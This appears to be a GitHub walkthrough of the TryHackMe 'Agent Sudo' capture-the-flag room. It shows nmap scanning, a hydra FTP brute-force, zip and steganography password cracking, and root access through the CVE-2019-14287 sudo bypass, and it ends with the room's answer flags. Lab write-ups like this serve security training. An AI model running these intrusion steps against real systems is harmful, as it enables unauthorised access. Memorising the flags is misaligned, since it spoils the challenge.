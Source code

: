 # Agent-Sudo-CTF

https://tryhackme.com/room/agentsudoctf

**Use sudo nmap -sS -sV  10.10.230.248 to scan for open ports**

	PORT   STATE SERVICE VERSION

	21/tcp open  ftp     vsftpd 3.0.3

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


From the html site the following clue is given:

	Dear agents,

	Use your own codename as user-agent to access the site.

	From,

	Agent R 

Download the User Agent Switcher from plugin in Firefox. Use the clue given in the question (Agent C)

In the user agent plugin , use user-agent as C and refresh the tab. And the following clue will be given:

	Attention chris,

	Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
	
	From,

	Agent R 

**Use hydra -t 4 -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.230.248 to bruteforce a password**

	21][ftp] host: 10.10.230.248   login: chris   password: crystal

get the following files:

	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png

cat To-agentJ.txt :

	Dear agent J,

	All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

	From,

	Agent C

**binwalk the png file and extract all contents**

**Use zip2john to create a hash for the locked text file : zip2john 8702.zip > output.txt**

**Use john the ripper to crack the password : john --format=zip output.txt** 

	alien            (8702.zip/To_agentR.txt)

Unlock the txt file :

	Agent C,

	We need to send the picture to 'QXJlYTUx' as soon as possible!

	By,

	Agent R

**download and install stegseek from https://github.com/RickdeJager/stegseek which uncovers passwords in seconds**

	stegSeek 0.6 - https://github.com/RickdeJager/StegSeek

	[i] Found passphrase: "Area51"         
	[i] Original filename: "message.txt".
	[i] Extracting to "cute-alien.jpg.out".

Open cute-alien.jpg.out to find more details:

	Hi james,

	Glad you find this message. Your login password is hackerrules!

	Don't ask me why the password look cheesy, ask agent R who set this password for you.

	Your buddy,

	chris

**sudo ssh james@10.10.149.203 with the password hackerrules!**

cat user_flag.txt for the first flag

scp the Alien_autospy.jpg and check online for the info of the photo

**sudo -l :**

	User james may run the following commands on agent-sudo:
    	(ALL, !root) /bin/bash

Run a google search with (ALL, !root) /bin/bash and the following result will appear https://www.exploit-db.com/exploits/47502 : CVE-2019-14287

**Use sudo -u#-1 /bin/bash to gain root access** 

cd root and get the final flag and also Agent R's real name

###### What is the user flag?

🏴‍☠️ b03d975e8c92a7c04146cfa7a5a313c7

###### What is the root flag?

🏴‍☠️ b53a02f55b57d4439e3341834d70c062




